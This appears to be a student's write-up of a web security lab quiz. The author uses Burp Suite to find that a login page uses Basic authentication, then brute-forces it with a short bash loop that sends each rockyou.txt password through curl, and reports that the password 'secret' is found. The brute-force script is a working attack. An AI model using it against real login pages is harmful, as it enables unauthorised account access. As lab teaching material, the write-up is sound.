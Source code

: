 Firstly, I used Burpsuite's Proxy to obtain the authentication mechanism being used on the entry page.

![diges authentication](img/quiz2/burp%20login%20php%20page.jpg)

Upon knowing that Basic authentication was being used, I wrote the following script to brute-force for the password.

```sh
#!/bin/bash

for p in $(cat /usr/share/wordlists/rockyou.txt)
do
	echo $p
	curl -u ict2206:$p https://websec.spiros.ml/041/login.php 
done
```

After running the script, the password `secret` was obtained.

![obtained password](img/quiz2/secret%20is%20the%20password.jpg)
